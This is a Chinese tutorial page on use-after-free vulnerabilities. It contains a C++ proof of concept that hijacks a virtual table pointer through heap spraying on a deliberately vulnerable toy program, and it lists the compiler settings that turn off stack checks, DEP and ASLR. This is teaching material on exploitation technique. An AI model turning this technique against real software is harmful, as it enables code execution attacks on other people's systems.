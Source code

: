 Use After Free
========================================

简介
----------------------------------------
+ 当申请的一个堆块在释放后，指向该堆块的指针没有清空（置NULL），就形成了一个悬挂指针（dangling pointer），而后再申请出堆块时会将刚刚释放出的堆块申请出来，并复写其内容，而悬挂指针此时仍然可以使用，使得出现了不可控的情况。攻击者一般利用该漏洞进行函数指针的控制，从而劫持程序执行流。
+ 利用条件
	- 具备堆块的"占坑"时间机会

利用方式
-----------------------------------------

类对象
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
由于大多数的堆内存其实都是C++对象，所以利用的核心思路就是分配堆去占坑，占的坑中有自己构造的虚表。
在c++中，如果类中有虚函数（如下图中的 virtual void give_shell()），那么它就是有一个虚函数表的指针__vfptr，在类对象最开始的内存数据中。之后是类中的成员变量的内存数据。

示例代码：

::

	#include "stdafx.h"
	#include<string>
	#include<stdio.h>

	class attack
	{
	public:
		unsigned int num;
		char buffer[8];
	public:
		attack(unsigned int n) { num = n; };
		virtual ~attack() {};
	public:
		virtual void printnum()
		{
			printf("num=%d\n", num);
		}
	};

	int main()
	{
		_asm int 3;
		
		attack *p1;
		char *p2;

		p1 = new attack(1);
		printf("p1：0x%p,size=%d\n", p1,sizeof(attack));
		delete p1;

		// 分配 p2 去“占坑”p1 的内存位置
		p2 = (char*)malloc(sizeof(attack));
		printf("p2：0x%p,size=%d\n", p2,sizeof(attack));
		memset(p2, 0x0c, 4);	//此处覆盖掉p1类的虚表指针，指向0c0c0c0c的堆喷地址

		char *shellcode=new char[200 * 1024 * 1024];//堆喷,申请大量内存，能够覆盖到0c0c0c0c的地址
		memset(shellcode, 0x0c, 200 * 1024 * 1024);
		memset(shellcode + 200 * 1024 * 1024 - 0x10, 0xcc, 0x10);//shellcode

		printf("==== Use After Free ===\n");
		p1->printnum();	//调用虚函数，[0c0c0c0c]=0c0c0c0c，跳到0c0c0c0c地址执行滑板指令shellcode
		free(p2);
		delete[]shellcode;
		return 0;
	}

利用条件：
 | p1指针free之后没有被重置为NULL
 | p2占坑内存必须可控，即存在malloc()函数可以将新申请分配的空间分配到之前被free()回收的buffer区域。
 | p1被重引用，如果是重新释放即double free漏洞，调用析构函数触发shellcode执行，或者是引用其它成员函数触发shellcode执行。

编译环境：
 | IDE：Visual Studio 2015，release
 | 编译选项：
 | 字符集：使用多字节字符集
 | c/c++->优化->优化：已禁用
 | c/c++->优化->启用内部函数：否
 | c/c++->优化->全程序优化：否
 | c/c++->预处理器->预处理定义：_CRT_SECURE_NO_WARNINGS（或禁用SDL）
 | c/c++->代码生成->安全检查：禁用安全检查（/GS-）
 | 链接器->高级->数据执行保护(DEP)-否
 | 链接器->高级->随机基址-否
 | 附件：`HeapUAF.zip <..//_static//HeapUAF.zip>`_
 
非C++对象的利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~